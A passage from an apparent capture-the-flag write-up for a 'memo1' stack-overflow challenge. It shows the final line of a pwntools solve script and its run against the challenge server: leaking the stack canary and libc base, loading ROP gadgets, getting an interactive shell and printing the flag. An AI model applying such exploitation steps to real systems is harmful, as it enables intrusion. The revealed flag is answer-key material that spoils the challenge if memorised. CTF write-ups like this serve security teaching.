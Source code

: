 ```python
p.interactive()
```

```
$ python3 solve.py REMOTE
[*] '[REDACTED]/memo1_patched'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'.'
[*] '[REDACTED]/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to chall.geekctf.geekcon.top on port 40311: Done
[*] Canary: 0x4b94bcf10d74ba00
[*] Libc: 0x7f5971435000
[*] Loaded 219 cached gadgets for './libc.so.6'
[*] Switching to interactive mode
===================Memo 1.0===================
1. Add  Memo
2. Show Memo
3. Edit Memo
4. Clean All
Your choice:How many characters do you want to change:Done!
===================Memo 1.0===================
1. Add  Memo
2. Show Memo
3. Edit Memo
4. Clean All
Your choice:Error Choice!
$ ls
flag
memo1
$ cat flag
flag{5t4ck_0v3rfl0w_1s_d4ng3r0u5_233}
```
